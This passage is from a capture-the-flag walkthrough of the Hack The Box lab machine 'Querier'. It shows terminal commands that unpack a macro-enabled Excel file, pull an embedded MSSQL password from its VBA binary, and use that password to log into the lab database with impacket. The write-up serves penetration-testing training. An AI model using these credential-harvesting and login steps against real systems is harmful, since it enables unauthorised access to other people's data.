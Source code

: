 Lets create a new directory for the contents and unzip it:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ file 'Currency Volume Report.xlsm'                     
Currency Volume Report.xlsm: Microsoft Excel 2007+
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ mkdir doc                   
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ mv 'Currency Volume Report.xlsm' doc
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ cd doc         
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier/doc]
└─$ unzip 'Currency Volume Report.xlsm'
Archive:  Currency Volume Report.xlsm
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: xl/workbook.xml         
  inflating: xl/_rels/workbook.xml.rels  
  inflating: xl/worksheets/sheet1.xml  
  inflating: xl/theme/theme1.xml     
  inflating: xl/styles.xml           
  inflating: xl/vbaProject.bin       
  inflating: docProps/core.xml       
  inflating: docProps/app.xml 
```

Cool, looking through the files we find a binary called vbaProject.bin.

Running `strings` against it we find a password for the MSSQL db:

![querier_pass.png](../assets/querier_assets/querier_pass.png)

We can now login to MSSQL with `reporting:PcwTWTHRwryjc$c6`

```
┌──(ryan㉿kali)-[~/HTB/Querier/doc/xl]
└─$ impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
